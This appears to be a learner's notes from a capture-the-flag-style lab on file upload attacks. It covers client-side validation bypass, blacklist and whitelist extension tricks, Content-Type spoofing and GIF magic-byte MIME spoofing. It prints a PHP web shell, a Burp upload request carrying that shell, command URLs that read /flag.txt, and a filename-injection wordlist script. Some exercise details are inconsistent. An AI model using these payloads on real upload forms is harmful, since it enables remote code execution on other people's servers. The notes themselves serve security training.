



# Client-SIde Validation:
Many web app only rely on front-end JS code to validation the select file format before it's uploaded and would no upload it if the file is not in the requiered  format.
As the file format validation is happening on the client-side, we can ez bypass by directly interacting with the server, skipping the front-end validation altogether. We may also modify
the front-end code through our browser's dev tools to disable any validation in place.

- Client-side Validation:
Image profile we must to select All files options to select our PHP script anywat, byt when we do so we get an erro message saying Only images are allowed.
This indicaties some from of file of type validation, so we cannot upload a web shell through the upload form as we did in the previus section. All validation appears to be happening on the fron-end
as the page never refreshes or sends any HTTP request  after selection our life. Any coder that runs on te client-side is under our control. While the web server is reponsible for sending the front-end code,
the redering and execution of the front-end code happend whithin our browser.
AS mentionated earlier, to bypass these protections, we can either [modify the upload request to the back-end server or can manipulate the front-end code to disable these type validations].

- Back-end Request Modification:
Examining a normal request through Burp. When we select an image, we see that it gets reflected as our profile image, and when we click upload  our profile picture gets updated and persists through refreshes.
This indicates that our image was uploaded to the server, if we capture the upload we get the request.

The web app appears to be sedning standard HTTP upload request to /upload.php. We can now modify this request to meet our needs without having the fron-end type validation restriction. If the back-end server does
not validation the upload file type, then we should theoretically be able to send any file type/content, and it would be upload to the server.

The two imp part in the request are [filename = "HTB.png"] and the file conent at the end of the request. If we modify the filename to shell.php and modify the content to the web shell, we would be uploading a PHP web
shell instead of an image.

> [!NOTE]
> We may also modify the [content-type] of the upload file, though this should not play an important role at this stage so we'll keep unmodified.

- Disabling  front-end validation:
Another method to bypass client-side validation is though maniputlating the front-end code. As these funtions are begin completely processed within oir web browser, we have complete control ever them.
We can modify these scripts or disable them entirely. We may use the upload funcionality to upload any file type without needing to utilize Burp to capture and modify our request.

Then we see in the line 18[`<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">`]
We see that the file specified[.jpg, .jpeg, .png] as the allowed file types within the file selection dialog. We can ez modify this and select ALl files as we did before, so it's unnecesary to change this part of the page.
The more interesting is [onchange="checkFile(this)"] which appears to run JS code whenever we select a file, which appears to be doing the file type validation.
To get details of this funtions, we can go the browser's Console  and then we can type the funtions name to get detais:
```js
function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}
```
The key thing we take form this funtion is where it checks whether the file extension is a image, it print the error message we saw and disable the Upload button. We can add PHP as one of the allowed extensions or modify the funtion
to remove the extension check.
We do not need to gee into writing and modifying JS code. We can remove this funtion from the HTML code since its primary use appears to be file type validation, and removing it should not break anything.
> [!TIP]
> You may also do same to remove accept=".jpg, .jpeg, .png" which should make selecting the PHP shell ez in the file selection dialog, this isn't not mandatory.

CheckFile funtion removed form the file input, we should be able to select our PHP we shell through the file selection and upload  it normally with no validation.
The modification we made to the source code is temporary and will not persist through page refreshes, as we are only changing in the client-side. Only need is to bypass the client-side validation, so should be enough for this purpouse.

Exercise:
Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)

Payload:
First we must to inspect the code source and change the script.js:
```js
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Employee File Manager</title>
  <link rel="stylesheet" href="./style.css">
</head>

<body>
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
  <script src="./script.js"></script>
  <div>
    <h1>Update your profile image</h1>
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}"> and remove validation()
        <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png"> --> add .php
        
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
    </center>
  </div>
</body>

</html>
```
`<?php system($_REQUEST['cmd']); ?>` Upload the file and after that go to /profile_images/script.php?cmd=cat /flag.txt

# Blacklist filters:
Trying one of the client-side bypasses we learned to uplaod the PHP scipt to the back-end server.
As we can see our attack did no success this time, as we got extension Not allowed. This indicates that the web app have some form file type validation on the backend.
1. Testing against a Blacklist of types.
2. Testing against a whitelist of types.

The validation may also check the file type or the file content for type matching. the weakest form of validation amongst these is testing the file extension agains blacklist of extension to determine whether the upload
request should be blocked.
```php
<?php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
?>
```

Thsi code is taking the file extension[$extension] from the uplaod file name[$fileName] and then comparing it against a list of blacklisted extensions [blacklist]. This validation method has a major flaw, As many other extensions are not included
in this list, which may still be used to execute PHP code on the back-end server if uploaded.

> [!TIP]
> The comparison above is also case-sensitive, and is only considering lowercase extension. FIle names are case insentive, we may try uploading a php with a mixed-case, which may bypass the blacklist as ell.

- Fuzzing extensions:
As web app seems to be testing the file extension, our first step is to fuzz the upload funcionality with a list of potential extionsisos and see which of them returns the previous error message.
Any upload request that do not returned an error message, return  a diff message, or succeed in uploading the file, may indicate an allowed file extension.

There are many lists of extensions we can utilize in our fuzzing scan, PayloadsAllThEThings provide lists for php and [.NET](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) web app.
We also use Seclists common [web extension].

We may use any of the above lists for our fuzziing sca. As we are testing a PHP app, we will dowload and use the above PHP list. We can use the intruder of burp or fuzz tool.

- Non-Blacklisted Extension:

We can start try to uplaod any of the allowed extensions form above and some of them may allow us to execute PHP code. Not all extensions will work with all web server configuration, so we may need to try several extensions to get on theat successfully.
Exercise:
First we must to create a file `touch shell.phar` then we upload end intercept with BURP:


After that send to the intruder for see the extensions that we can use.

Then we will use the extension .phar and edit the request:
```sh
POST /upload.php HTTP/1.1
Host: 83.136.251.68:55481
Content-Length: 228
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeYMfDOAbPrNVFPC3
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://83.136.251.68:55481
Referer: http://83.136.251.68:55481/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryeYMfDOAbPrNVFPC3
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>


------WebKitFormBoundaryeYMfDOAbPrNVFPC3--
```
And go to the `http://83.136.251.68:55481/profile_images/shell.phar?cmd=cat%20/flag.txt`

# Whitelist Fileters:
As discussed in the previus section the other type of the file extension validation is by utilizing a whitelist of allowed file extensions. A whitelist is generally more secure than the blacklist. The web
server would only allow th specified extensions, and the list would not need to be comprehnsive in covering uncommon extensions.

- Whitelist Extensions:
We see that we get a message saying onlu images are allowed, which may be more common in web apps than seing a blocked extensions type. Error messages do not reflected wich form of validation is begin utilized, so try fuzz for allowed extensions
as we did.
We can see that all variations of PHP extensions are blocked. The wordlist we used also contained other 'malicious' extensions that were not blocked adn were successfully uploaded.
Example of wuithe list test:
```php
<?php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
?>
```
We see that the script uses a Regular expression to test whether the filename contains any whitelist image extensions. The issue here lies whithin the regex, as it only checks whether the file name contains the extension and not if actuyally ends with it.

- Double Extensions:
The code only tests wheether the file name cotains an image extension; a straightfoward method of passing the regex test is though [Double extension]. Example shell.jpg.php
thius may no always works, as some web apps may use a strict regex pattern `if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }`
This pattern should only consider the final extension, as it uses.

- Reverse Double Extension:
The file upload funcionality itself may not be vulnerable, but the web server configuration may lead to a vulnerability. An organization may uses an open-source web app, which has a file upload funcionality. Even the file uploaad funtionality uses a strict regex pattern that only matches the final
extension in the file name, the organization may use th insecure configuration fo rhte web server.
```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>

```
The above configuration is how the web server determines which files to allow PHP code execution. It specifies a whitelist with a regex pattern theat matches .phar, .php and phtml.
This regex pattern can have the same mistake we saw earlier if w forget to end it with {$}. Any file that contains the above extension will be allowed PHP code, execution even if ti does not end with the php extension.

- Character Injection:
We can inject several character before or after the final extension to cause the web app to misinterpret the filename execute the uploaded.
    - %20
    - %0a
    - %00
    - %0d0a
    - /
    - .\
    - .
    - :
    - ...
Each character has a specified use case that may trick the web app to misinterpret the file extension [shell.php%00.jpg].
We can write a small bash script that generates all permatations  of the file name,. where above characters would be injected before and after both the PHP and JPG extensions.
```sh
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Exercise:
Is so similar than the lastest exercise but change de double extension and use shell.phar.shell

# Type Filsters:
We hace only been with type filters that only consider the file extension in the same file name. As we saw we may still to gain control over the back-end server even with image extensions.
We may utilize some allowed extensions, to perform other attacks. All of this indicates that only testing the file extension is not enough to prevent file upload attack.

This is why many modern web servers and web apps also test the content of the uploaded file to ensure it matches the specified type. While extension filters may accept several extensions, content filters usually specify a single category, which
is why they do not typically use blacklist or whitelist.

Two common file content: [Content-type Header or File Content]:

- Content-Type:
We see that we get message saying Only Images are allowed, the error message persist, and our file fails to upload even if we try some of the tricks we learned. If we change the file name to shell.jpg,phtml or shell.php.jpg, or even if we use shell.jpg.
As the filke extensions does not affect the error message, the web app must be testing the file content for type validation.

```php
<?php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
?>

```

The code sets the [$type] variable from uploaded file's Content-Type header. Our browser automatically set the Content-Type header when selecting a file through the file selector
dialog, usually derived form the file extension. Since our browsers set this, this operation is client-side operation, and we can manipulate to change the precieved file type and petentially
bypass the type filer.
We may start fuzzing the Content-Type header with SecList [webcontent](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
to see which types are allowed. The message tells us that only images are allowed, so we can limit our scan to image types, which reduces the worlist 45 types ony we can follow:
```sh
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
For  the sake simplicitym let's just picj an image then intercept our request and change the Content-Type header to it.

> [!NOTE]
> A file upload HTTP request has two Content-Type headers, one for the attached file and one for the full request. We usually need to modify the file's Content-Type header, but
> in some cases the request will only contain the main Content-Type header, in which case we'll need to modify the main Content-Type.

- MIME-type:
The second and more common type of file conent validation is testing the upload files MIME-type. Multipurpouse Internet Mail Extension(MIME) is an internet standard that determine the type of a
file through its general and bytes structure.

This is usually done by inspecting the first few bytes if the file's content, which contain [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytesp](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).
If a file start with [GIF87a] this indicates that is a gif image, while a file starting with plaintext is usually considered a Text file. If we change the first byte of any file ti the GIF magic bytes,
its MIME type would be changed to a GIF image regardless of its remaining content or extension.

> [!TIP]
> MAny other image types have non-printable byts for their file Signature, while a GIF image starts with ASCII printable bytes, so it the easiest to imitate. As the String
> GIF8 is common between both GIF Signature, it is usually enough to imitate a GIF image.

Lets take a basic example to demostrate this, the file command on UNIX system the file type through the MIME type. If we create a basic file text in, would be considered as a text file:
```sh
echo "this is a text file > text.jpg"
file text.jpg
```
As we see the file's MIME type is ASCII text, even though it extension is .jpg. OF we write GIF8 to the begining of the file, it will be considered as a GIF imafe instead, even though is extension is still .jpg.
Web servers can alos utilize this standard to determinate file extension, which usually more accuratte than testing the file extension:
```php
<?php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
?>
```
As we can see the MIME types are similar to the ones found in the Content-Type headers, but their source is dff, as PHP uses the mime_content_type() funtion to get a file's MIME types.
Let's try to add GIF8 before our PHP code to try imitate GIF image while keeping our file extension.

We can use combination of the two methods dicussed ein this section, which may help is bypass some more robust conent filters, We can try Allowed MIME type with a disallowed content-type, and
Allowed MIME/Content-type with disallowed extension, or disallowed MIME/Content-type with an allow extension, and so on. We can attmepts other combination and permitations to try confuse the web server.

Exercise:
For this exercise we must to disable the this section for get the post:
```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Employee File Manager</title>
  <link rel="stylesheet" href="./style.css">
</head>

<body>
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
  <script src="./script.js"></script>
  <div>
    <h1>Update your profile image</h1>
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm">
        <input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png"> --> rm checkfile and add php.
        
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
    </center>
  </div>
</body>

</html>
```

And upload the intruder:


And change the content of `filename="shell.jpg.phar"`. and put GIF8 and the payload and go to the `http://83.136.252.13:44787/profile_images/shell.jpg.phtml?cmd=cat%20/flag.txt`

